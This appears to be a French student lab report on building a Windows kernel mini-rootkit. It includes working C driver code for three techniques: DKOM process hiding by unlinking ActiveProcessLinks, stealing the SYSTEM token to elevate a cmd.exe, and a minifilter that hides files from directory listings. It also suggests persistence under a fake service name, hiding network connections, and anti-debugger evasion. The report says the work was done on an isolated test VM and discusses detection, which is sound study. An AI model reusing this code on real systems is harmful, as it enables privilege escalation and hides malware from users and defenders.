


# TP04 - Mini-rootkit : DKOM, Token Stealing et File Hiding

**Auteur :** Istark  
**Date :** Octobre 2026

> **Avertissement :** Toutes les manipulations de ce TP ont ete effectuées exclusivement sur la VM de test isolée. Ces techniques sont présentées a but educatif uniquement.

---

## Exercice 1 - DKOM (Direct Kernel Object Manipulation)

### Objectif

L'idée c'est de faire disparaitre un processus de la liste des processus visibles par le systeme, sans le tuer. On manipule directement la liste doublement chainée ActiveProcessLinks dans la structure EPROCESS.

Les offsets utilisés (verifiés avec dt nt!_EPROCESS sur Windows 10/11 récent) :

| Champ | Offset |
|---|---|
| UniqueProcessId | 0x440 |
| ActiveProcessLinks | 0x448 |
| Token | 0x4b8 |
| ImageFileName | 0x5a8 |

### Code

**Code source dkom.c - la fonction HideProcess :**

```c
#define OFFSET_ACTIVE_PROCESS_LINKS 0x448

VOID HideProcess(_In_ PEPROCESS Process)
{
    PLIST_ENTRY current = (PLIST_ENTRY)
        ((ULONG_PTR)Process + OFFSET_ACTIVE_PROCESS_LINKS);
    PLIST_ENTRY prev = current->Blink;
    PLIST_ENTRY next = current->Flink;

    // On decroche le processus de la liste
    prev->Flink = next;
    next->Blink = prev;

    // On fait pointer l'entree sur elle-meme pour eviter un BSOD
    // si le processus se termine apres le masquage
    current->Flink = current;
    current->Blink = current;

    DbgPrint("Dkom: process masque\n");
}
```

### Q1 - Avant/apres le masquage

Avant hide.exe : `tasklist | findstr notepad` affiche notepad.exe avec son PID. Dans WinDBG `!process 0 0 notepad.exe` montre l'adresse EPROCESS.

Apres `hide.exe <pid>` : `tasklist | findstr notepad` ne retourne rien. WinDBG `!process 0 0 notepad.exe` ne trouve plus le processus. Mais `!process <adresse_eprocess> 0` montre que notepad tourne toujours.



On voit bien que apres hide.exe, tasklist ne retourne plus notepad dans les resultats meme si il tourne toujours. La technique fonctionne.

### Q2 - Visibilité via d'autres mecanismes

- **!process 0 0** : utilise ActiveProcessLinks → processus invisible, directement affecté par notre manipulation
- **dx @$cursession.Processes** : selon la version de WinDBG ca peut aussi utiliser ActiveProcessLinks. Dans nos tests le processus n'apparait plus
- **!object `\Device`** : independant de ActiveProcessLinks, liste les device objects. Notre processus masqué n'a pas de device object associé donc pas visible ici non plus

La conclusion c'est que DKOM ne masque qu'un seul point d'enumeration. Des outils forensiques qui scannent directement le pool de memoire pour trouver des structures EPROCESS (comme Volatility) peuvent detecter le processus masqué en cherchant les incoherences.

### Q3 - Risques

**Principal risque : BSOD au cleanup**

Si on fait pas boucler current->Flink/Blink sur lui-meme, le code de cleanup du noyau (PspExitProcess) essaie de retirer l'entree d'une liste dont les pointeurs sont corrompus → crash. On evite ca en faisant `current->Flink = current->Blink = current` juste apres la manipulation.

Autre risque : si une autre structure kernel reference ce EPROCESS et tente de l'enumerer, ca peut causer des incoherences. C'est pour ca que cette technique est fragile sur les systemes modernes avec beaucoup de mecaniams de validation.

---

## Exercice 2 - Token Stealing

### Objectif

Voler le token de securité du processus System (PID 4) pour l'injecter dans un processus cible (ex: un cmd.exe). Le processus cible obtient alors les privilèges SYSTEM.

### Principe

Dans la structure EPROCESS, le champ Token (a offset 0x4b8) est un pointeur de type EX_FAST_REF vers la structure _TOKEN du processus. En copiant la valeur brute du Token du processus System vers le champ Token du processus cible, on "vole" les privileges.

**Code source steal.c :**

```c
#define SYSTEM_PID    4
#define OFFSET_TOKEN  0x4b8
#define EX_FAST_REF_MASK (~(ULONG_PTR)0xF)

VOID StealToken(_In_ ULONG TargetPid)
{
    PEPROCESS targetProcess = NULL;
    PEPROCESS systemProcess = NULL;
    NTSTATUS status;

    // On recupere le EPROCESS du processus System
    status = PsLookupProcessByProcessId(
        (HANDLE)(ULONG_PTR)SYSTEM_PID, &systemProcess);
    if (!NT_SUCCESS(status)) return;

    // On recupere le EPROCESS du processus cible
    status = PsLookupProcessByProcessId(
        (HANDLE)(ULONG_PTR)TargetPid, &targetProcess);
    if (!NT_SUCCESS(status)) {
        ObDereferenceObject(systemProcess);
        return;
    }

    {
        PULONG_PTR systemTokenField =
            (PULONG_PTR)((ULONG_PTR)systemProcess + OFFSET_TOKEN);
        PULONG_PTR targetTokenField =
            (PULONG_PTR)((ULONG_PTR)targetProcess + OFFSET_TOKEN);

        // On copie la valeur brute du token (EX_FAST_REF)
        *targetTokenField = *systemTokenField;
        DbgPrint("Steal: token copie vers PID %lu\n", TargetPid);
    }

    ObDereferenceObject(targetProcess);
    ObDereferenceObject(systemProcess);
}
```

### Chargement du driver



Le driver Steal est bien chargé et en état RUNNING, pret a recevoir les commandes via IOCTL.

### Q4 - whoami avant/apres

Avant elevate.exe : whoami dans le cmd cible retourne le nom de l'utilisateur courant (ex: desktop-ebcioga`\istark`).

Apres elevate.exe <pid_cmd> : whoami dans le meme cmd retourne **nt authority`\systeme`**.


On voit clairement dans la capture : la fenetre de gauche montre le cmd elevé qui retourne "autorite nt`\systeme`" apres le vol de token, et en bas l'appel elevate.exe 4520 avec le message [+] token copie.

### Q5 - EX_FAST_REF et les 4 bits

Les 4 bits de poids faible d'un pointeur vers un objet kernel sont toujours a 0 car les structures sont alignées sur 16 octets minimum. Microsoft utilise ces bits "gratuits" pour stocker un compteur de reference rapide (RefCnt) sans allocation supplementaire. C'est ce qu'on appelle un "fast reference" ou EX_FAST_REF.

Pour la copie : on peut recopier la valeur brute sans masquer les bits, ca fonctionne pour affecter le champ Token d'un autre processus. Le probleme apparait si on tente de dereferencer ce pointeur brut comme une adresse directe : les 4 bits ajoutent un offset qui pointe a cote de la vraie structure et ca provoque un acces memoire invalide. Pour acceder au vrai _TOKEN il faut masquer : `adresse = valeur & ~0xF`.

En pratique pour le token stealing la copie brute suffit et c'est ce que notre driver fait.

### Q6 - whoami retourne system mais session inchangée

whoami interroge le token du processus courant (via OpenProcessToken + GetTokenInformation). On a changé le champ Token dans _EPROCESS donc ce token est maintenant celui de System, et whoami le confirme.

Mais la session de bureau (Window Station, Desktop) est un concept completement séparé géré par Win32k.sys et winlogon. On a touché uniquement a la structure process kernel, pas a la session graphique. Donc visuellement la fenetre du cmd reste dans la session utilisateur normale mais les privileges sont bien SYSTEM.

---

## Exercice 3 - File Hiding via MiniFilter

### Objectif

Cacher des fichiers dont le nom contient "rootkit" en interceptant les résultats des queries de repertoire (IRP_MJ_DIRECTORY_CONTROL), et en retirant les entrées correspondantes de la réponse avant qu'elle arrive a l'application.

### Approche

Contrairement au filtre du TP02 qui opere en pre-opération (avant que le noyau traite la requete), ici on utilise une **post-opération** sur IRP_MJ_DIRECTORY_CONTROL. Le noyau nous renvoie la liste de fichiers, et on supprime les entrées "rootkit" avant de la rendre a l'application.

**Code source hidefiles.c (fonction de masquage) :**

```c
#define HIDE_KEYWORD     L"rootkit"
#define HIDE_KEYWORD_LEN 7

FLT_POSTOP_CALLBACK_STATUS PostDirectoryControl(...)
{
    PFILE_BOTH_DIR_INFORMATION entry;
    PFILE_BOTH_DIR_INFORMATION previousEntry = NULL;
    PUCHAR buffer = iopb->Parameters.DirectoryControl
                        .QueryDirectory.DirectoryBuffer;

    entry = (PFILE_BOTH_DIR_INFORMATION)buffer;

    for (;;) {
        ULONG nextOffset = entry->NextEntryOffset;
        BOOLEAN isLast   = (nextOffset == 0);
        BOOLEAN hide     = ShouldHide(entry->FileName,
                                      entry->FileNameLength);

        if (hide) {
            if (previousEntry == NULL) {
                if (isLast) {
                    // Seule entree et elle doit etre cachee
                    Data->IoStatus.Information = 0;
                    break;
                } else {
                    // On decale tout le reste vers le debut
                    PFILE_BOTH_DIR_INFORMATION next = (PVOID)
                        ((PUCHAR)entry + nextOffset);
                    ULONG remaining = (ULONG)(
                        Data->IoStatus.Information
                        - ((PUCHAR)next - buffer));
                    RtlMoveMemory(entry, next, remaining);
                    continue;
                }
            } else {
                // On saute cette entree en mettant a jour le offset precedent
                if (isLast)
                    previousEntry->NextEntryOffset = 0;
                else
                    previousEntry->NextEntryOffset += nextOffset;
                if (isLast) break;
                entry = (PVOID)((PUCHAR)entry + nextOffset);
                continue;
            }
        }
        if (isLast) break;
        previousEntry = entry;
        entry = (PVOID)((PUCHAR)entry + nextOffset);
    }
    return FLT_POSTOP_FINISHED_PROCESSING;
}
```

### Q7 - dir C:\ avant/apres

Avant chargement du minifilter : `dir C:\` montre rootkit_payload.exe, rootkit_config.txt et legitimate_file.txt.

Apres `fltmc load HideFiles` : `dir C:\` ne montre plus que legitimate_file.txt. Les deux fichiers "rootkit" ont disparu.

### Q8 - Tests des limites

| Test | Résultat |
|---|---|
| Explorateur graphique Windows | Invisible - meme mecanisme IRP_MJ_DIRECTORY_CONTROL |
| Get-ChildItem en PowerShell | Invisible - meme chemin d'enumeration |
| Acces direct par chemin (type C:`\rootkit_payload`.exe) | **Visible** - le minifilter filtre que l'enumeration, pas l'acces direct |
| NtQueryDirectoryFile direct | Invisible - passe quand meme par le Filter Manager |
| Acces disque raw hors ligne | **Visible** - contourne completement le filtrage kernel |

La seule vraie limite c'est un outil qui lit le volume raw directement (acces disque hors ligne). Toute enumeration qui passe par le systeme de fichiers Windows est interceptée.

### Q9 - Comparaison DKOM vs minifilter

| Critère | DKOM | MiniFilter |
|---|---|---|
| Mécanisme | Manipulation directe de structures non documentees | API officielle Filter Manager |
| Detectabilite | Pas de registre de filtres, mais incoherences detectables par scan memoire | Facilement vu via `fltmc filters` |
| Stabilite | Fragile, risque de BSOD au cleanup | Robuste, API officielle supportee |
| Facilité d'implem | Risquée, offset hardcodés | Plus simple, API bien documentee |

DKOM est plus "stealth" dans le sens ou il n'apparait pas dans `fltmc filters`, mais il est aussi plus fragile et plus facile a detecter par un scanner memoire. Le minifilter est plus robuste mais visible instantanement avec `fltmc filters`.

---

## Exercice 4 (bonus) - Rootkit unifié

### Q10 - 3 fonctionnalites supplementaires

**1. Persistance furtive**

Installation du driver avec un nom imitant un service systeme légitime (ex: "WinNetDrv" au lieu de "steal") + le minifilter de file hiding cache le .sys dans System32`\drivers`. La combinaison rend le rootkit difficile a découvrir via l'interface graphique.

**2. Masquage reseau**

Via WFP (Windows Filtering Platform) on peut filtrer les résultats de netstat en interceptant les requetes d'enumeration des connexions TCP actives pour retirer les entrees appartenant au rootkit. Similaire a hidefiles mais pour les connexions réseau.

**3. Anti-analyse**

Detection de la presence d'un kernel debugger (KD_DEBUGGER_ENABLED, KdDebuggerNotPresent) et désactivation temporaire des fonctions offensives lors de l'analyse pour echapper a la detection en sandbox ou VM de securité.

---

*Toutes les manipulations ont été faites exclusivement sur la VM de test isolée. Les techniques présentées sont a but educatif uniquement.*
